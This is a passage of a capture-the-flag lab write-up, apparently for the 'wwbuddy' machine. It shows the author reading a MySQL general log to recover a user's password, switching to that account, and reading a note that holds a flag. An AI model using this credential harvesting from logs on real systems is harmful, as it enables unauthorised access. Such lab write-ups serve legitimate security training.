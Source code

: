 We see some interesting log files.

<figure><img src=".gitbook/assets/image (375).png" alt=""><figcaption></figcaption></figure>

It contains credentials for Roberto user, when we can the file contents out:

```bash
www-data@wwbuddy:/tmp$ cat /var/log/mysql/general.log

# output
2020-07-25T15:01:40.143760Z	   12 Execute	SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
2020-07-25T15:02:00.019056Z	   13 Execute	SELECT id, username, password FROM users WHERE username = 'Roberto'

# new credentials.
Roberto : yVnocsXsf%X68wf
```

So it could be password for `roberto` acct or mysql db password. I tried switching to `roberto` user and it worked.

<figure><img src=".gitbook/assets/image (376).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Jenny

In roberto home dir, there is a file.

{% code overflow="wrap" %}
```bash
roberto@wwbuddy:/home$ cd roberto/
roberto@wwbuddy:~$ ls -al
total 32
drwx------ 4 roberto roberto 4096 Nov  2 11:58 .
drwxr-xr-x 5 root    root    4096 Jul 28  2020 ..
-rw------- 1 roberto roberto    0 Jul 28  2020 .bash_history
-rw-r--r-- 1 roberto roberto  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 roberto roberto 3771 Apr  4  2018 .bashrc
drwx------ 3 roberto roberto 4096 Nov  2 11:58 .gnupg
-rw-rw-r-- 1 roberto roberto  246 Jul 27  2020 importante.txt
drwxrwxr-x 3 roberto roberto 4096 Jul 27  2020 .local
-rw-r--r-- 1 roberto roberto  807 Apr  4  2018 .profile
roberto@wwbuddy:~$ cat importante.txt 
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.

THM{g4d0_d+_kkkk}
roberto@wwbuddy:~$ 
```
{% endcode %}
